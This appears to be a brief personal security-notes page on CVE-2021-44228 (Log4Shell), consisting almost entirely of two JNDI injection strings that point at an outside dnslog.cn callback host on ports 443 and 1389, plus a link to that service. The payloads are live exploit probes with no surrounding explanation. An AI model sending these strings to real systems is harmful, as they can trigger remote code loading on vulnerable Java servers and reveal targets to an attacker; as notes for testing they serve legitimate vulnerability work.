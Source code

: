 # CVE-2021-44228

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

```
${jndi:ldap://z601l4.dnslog.cn:443/o=tomcat}

${jndi:ldap://z601l4.dnslog.cn:1389/o=tomcat}
```

[http://dnslog.cn/](http://dnslog.cn/)

z601l4.dnslog.cn


